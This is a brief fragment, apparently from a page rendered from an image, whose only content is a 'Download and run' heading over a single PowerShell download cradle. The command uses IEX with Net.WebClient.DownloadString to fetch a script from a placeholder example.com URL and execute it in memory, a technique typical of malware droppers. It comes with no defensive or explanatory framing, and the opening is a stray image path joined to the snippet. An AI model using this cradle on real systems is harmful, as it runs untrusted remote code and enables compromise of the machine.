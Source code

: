 # Download and run

IEX(New-Object Net.WebClient).DownloadString('http://example.com/example.html')
